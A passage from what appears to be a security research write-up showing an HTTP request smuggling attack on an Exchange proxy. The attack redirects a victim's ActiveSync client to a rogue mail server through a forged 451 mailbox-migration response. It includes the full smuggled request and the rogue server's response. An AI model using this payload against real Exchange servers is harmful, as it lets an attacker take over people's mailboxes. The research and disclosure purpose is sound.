 To demonstrate that the above theory works, we connected a 'victim' (tgad.local\\**bob**) to our demo environment; an Exchange server behind the proxy `tgvmex01.local`. Bob is connected using ActiveSync. His iOS Exchange configuration is included below. 

{% customlightbox "5_legitimate_settings" "5_legitimate_settings.png" "Creating an OTP in Raivo OTP" %}

A threat actor that would like to migrate Bob's mailbox to a rogue exchange server needs to start by performing an HRS attack which redirects Bob's ActiveSync requests to a rogue server. An example is included below.

{% highlightcode http %}
    POST /owa/auth/logon.aspx?2whS=929722944 HTTP/1.1
    REPLACE-WITH-SPACETransfer-Encoding: chunked
    Connection: keep-alive
    Host: tgvmex01.proxy
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: nl,en-US;q=0.7,en;q=0.3
    Accept-Encoding: gzip, deflate
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 160
    
    3F
    6kqfa=x&url=https%3a%2ftgvmex01.proxy%2fowa%2f&reason=0&whfto=x
    0
    
    GET https://rogue-server.remote/ HTTP/1.1
    X-Ignore: X
{% endhighlightcode %}

The server `rogue-server.com` always serves the same response, no matter what the request is. This response is included below and has the `451 Unavailable For Legal Reasons` status with the rogue exchange server in the response headers.

{% highlightcode http %}
    HTTP/1.1 451 Unavailable For Legal Reasons
    Date: Thu, 08 Apr 2021 18:14:22 GMT
    Server: Apache/2.4.46 (Debian)
    X-MS-Location: https://rogue-exchange.remote/
    Content-Length: 0
    Connection: close
    Content-Type: text/html; charset=UTF-8
{% endhighlightcode %}

When Bob falls victim to the HRS attack, he will be served with the `451 Unavailable For Legal Reasons` response of the rogue server. Bob's email client will change the server address to `rogue-exchange.remote`, as the response indicated a mailbox migration to this rogue exchange.

The first few tries of this attack didn't work. But after trying it for several times in a row, the HRS attack finally triggered on Bob's synchronization request, causing Bob's mail client to change the configuration to the rogue exchange, as can be seen in Bob's Exchange settings below.

{% customlightbox "6_rogue_settings" "6_rogue_settings.png" "Creating an OTP in Raivo OTP" %}
